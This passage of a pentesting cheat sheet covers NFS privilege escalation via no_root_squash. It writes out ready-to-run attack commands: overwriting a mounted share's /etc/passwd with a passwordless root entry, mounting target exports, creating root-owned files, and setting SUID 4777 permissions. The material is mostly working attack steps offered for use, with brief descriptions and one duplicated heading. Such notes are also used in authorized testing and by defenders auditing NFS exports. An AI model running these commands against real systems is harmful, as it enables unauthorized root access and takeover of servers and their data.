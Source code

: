 ## Privilege Escalation

### Exploiting No Root Squash
- **Tool:**  Manual Configuration
	```bash
	echo "root::0:0::/root:/bin/bash" > /mnt/nfs/etc/passwd
	```

	```bash
	touch /mnt/nfs/root_owned_file
	chown root:root /mnt/nfs/root_owned_file
	```
- **Description:** If `no_root_squash` is enabled, exploit this to gain root access by creating files with root privileges. When `no_root_squash` is enabled, clients can operate as root on the NFS server.

### Exploiting No Root Squash
- **Tool:** [[Mount]]
    ```bash
    mount -o rw,vers=3 <target_ip>:/srv/nfs/share /mnt/share
    cd /mnt/share
    touch root_owned_file
    ```

	```bash
	sudo mount -t nfs <target_ip>:/exported_directory /mnt
	```
- **Description:** If the NFS share is configured with `no_root_squash`, escalate privileges by gaining root access to the file system.

### Root Squashing Bypass Exploit
- **Tool:**  Manual Configuration
	```bash
	/export 192.168.1.0/24(rw,no_root_squash)
	```
- **Description:** Improperly configured `root_squash` settings can allow root access to the NFS server. This configuration does not squash root privileges, allowing clients to perform actions as the root user.

### Abusing NFS Permissions
- **Tool:** Manual Configuration
	```bash
	chown root:root /mnt/target_file
	chmod 4777 /mnt/target_file
	```
- **Description:** Change ownership and permissions on critical files to elevate privileges on the target system.

## Internal Reconnaissance
